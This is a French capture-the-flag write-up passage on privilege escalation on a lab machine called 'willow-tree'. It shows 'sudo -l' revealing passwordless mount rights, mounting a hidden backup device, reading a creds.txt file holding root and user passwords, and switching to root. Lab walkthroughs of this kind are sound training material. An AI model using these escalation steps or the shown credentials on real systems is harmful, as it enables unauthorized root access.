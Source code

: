 ## \[Task 4] Escalade de privilèges

### 1. Sudo -l

```
willow@willow-tree:~$ sudo -l
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
```

Nos constatons que willow peut monter le répertoire /dev avec des privilèges sudo sans devoir entrer de mot de passe.

Voyons ce qu'il y a dans /dev

<figure><img src=".gitbook/assets/hidden_backup.png" alt=""><figcaption></figcaption></figure>

Le répertoire hidden\_backup paraît très intéressant.  Montons-le avec sudo

```
willow@willow-tree:~$ mkdir hb
willow@willow-tree:~$ sudo mount /dev/hidden_backup /home/willow/hb
willow@willow-tree:~$ cd hb
willow@willow-tree:~/hb$ ls -l
total 1
-rw-r--r-- 1 root root 42 Jan 30  2020 creds.txt
willow@willow-tree:~/hb$ cat creds.txt
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
willow@willow-tree:~/hb$ su root
Password: 
root@willow-tree:/home/willow/hb# whoami
root
root@willow-tree:/home/willow/hb# ls -l /root/
total 4
-rw-r--r-- 1 root root 139 Jan 30  2020 root.txt
root@willow-tree:/home/willow/hb# ls -la /root/
total 36
drwx------  5 root root 4096 Jan 30  2020 .
drwxr-xr-x 23 root root 4096 Jan 30  2020 ..
lrwxrwxrwx  1 root root    9 Jan 30  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 Jan 30  2020 .config
drwxr-xr-x  3 root root 4096 Jan 30  2020 .local
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
-rw-r--r--  1 root root  139 Jan 30  2020 root.txt
-rw-r--r--  1 root root   74 Jan 30  2020 .selected_editor
drwx------  2 root root 4096 Mar  1  2020 .ssh
```